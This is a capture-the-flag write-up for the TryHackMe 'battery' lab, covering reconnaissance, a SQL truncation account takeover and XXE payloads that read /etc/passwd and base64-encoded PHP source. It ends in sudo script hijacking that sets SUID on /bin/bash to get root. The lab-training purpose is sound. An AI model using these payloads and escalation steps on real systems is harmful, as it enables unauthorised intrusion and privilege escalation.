





# battery - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** SQL Truncation Attack → XXE Injection → SSH Credentials → Privilege Escalation
---------------------------
## Target
- Machine: `battery.thm`  
- Date: `2025-10-16`  
- Environment: TryHackMe / CTF
---------------------------

## Steps

---------------------------
## 1.Initial scan
Start recon with nmap

```bash
└─$ nmap -sS -Pn -T4 -p- battery.thm

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

----------------------------

## 2.Directory Enumeration

```bash
└─$ gobuster dir -u http://battery.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x .php,.txt

/register.php         (Status: 200) [Size: 715]
/admin.php            (Status: 200) [Size: 663]
/scripts              (Status: 301) [Size: 311] [--> http://battery.thm/scripts/]
/forms.php            (Status: 200) [Size: 2334]
/report               (Status: 200) [Size: 16912]
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/dashboard.php        (Status: 302) [Size: 908] [--> admin.php]
/acc.php              (Status: 200) [Size: 1104]
/with.php             (Status: 302) [Size: 1259] [--> admin.php]
/tra.php              (Status: 302) [Size: 1399] [--> admin.php]

```

----------------------------------

Downloaded `/report` binary.

```bash
└─$ file report 
report: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=44ffe4e81d688f7b7fe59bdf74b03f828a4ef3fe, for GNU/Linux 3.2.0, not stripped
```
Discover the file 
```bash
└─$ strings report

===============List of active users================
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a

```
-----------------------------------------

## 3.SQL Truncation Attack

During analysis of the `/report` binary, I discovered a list of active users including `admins` and `admin0`. This pattern suggested a potential **Username Spoofing** vulnerability.

**Attack Execution:**
1. **Identified the vulnerability:** The presence of similar usernames indicated weak input validation
2. **Crafted malicious username:** Registered with `admin@bank.a--` 
3. **Bypassed authentication:** The database truncated the username to `admin@bank.a`
4. **Successfully logged in** using:
   - Username: `admin@bank.a` 
   - Password: `admin`

**Technical Insight:** The SQL database truncated the trailing `--` characters, causing a collision with the existing admin account and allowing password reset/overwrite.

*Note: Burp Suite was used to intercept and modify the registration request.*


*Figure: SQL-Truncation-Attack*

------------------

## 4. XXE Injection (XML External Entity)

After gaining admin access, I discovered an XML processing functionality in the command section at `/forms.php`.

### Discovery Phase
The application was processing XML input in the search functionality, which prompted XXE testing.


*Figure: XML input field in /forms.php*

### Initial Testing
I started with a basic XXE payload to read `/etc/passwd`:


*Figure: XXE injection*

the payload :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<root><name>test</name><search>&test;</search></root>
```
However, when attempting to access `acc.php` directly or with suspicious input, the application returned:		'RCE Detected!'

Note: acc.php is a separate page that acts as a RCE detection mechanism, blocking direct malicious access attempts.

### Bypass Using PHP Wrapper

To bypass the detection, I utilized PHP filters within the XXE payload itself to encode the output:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY test SYSTEM "php://filter/convert.base64-encode//resource=acc.php">
]>
<root><name>test</name><search>&test;</search></root>
```

*Figure: XXE injection with php wrapper*
The XXE payload successfully returned a base64-encoded version of `acc.php` content:

After decoding the response using CyberChef:

*Figure: Decoding the base64 output revealing SSH credentials in acc.php*

### Credentials Found within acc.php:
    Username: cyber
    Password: [REDACTED]!

-------------------------
## Base Flag

Connected via SSH using extracted credentials.

The first flag was located in the user's home directory:
```bash

cyber@ubuntu:~$ id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)
cyber@ubuntu:~$ ls
flag1.txt  run.py
cyber@ubuntu:~$ cat flag1.txt 

THM{[REDACTED]}

Sorry I am not good in designing ascii art :(
```
-----------------------------

## User Flag

Time to Privilege Escalation

```bash
cyber@ubuntu:~$ sudo -l

    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
```
The run.py script had restrictive permissions:
```bash
cyber@ubuntu:~$ ls -la run.py 
-rwx------ 1 root root 349 Nov 15  2020 run.py
```
While we could execute the script as root without password, we couldn't modify it directly due to root ownership.

### Exploitation via Script Hijacking

```bash
cyber@ubuntu:~$ mv run.py /tmp/
cyber@ubuntu:~$ echo "import os; os.system('chmod +s /bin/bash')" > run.py
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
cyber@ubuntu:~$ bash -p
bash-4.3# id
uid=1000(cyber) gid=1000(cyber) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(cyber)

bash-4.3# cat /home/yash/flag2.txt 
THM{[REDACTED]}


Sorry no ASCII art again :(
bash-4.3# 
```
-----------------------------------

## Root Flag 

Captured the final flag from `/root/root.txt`:

```bash
bash-4.3# cat /root/root.txt 
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


                                        battery designed by cyberbot :)
                                        Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859


THM{[REDACTED]}
```
We done
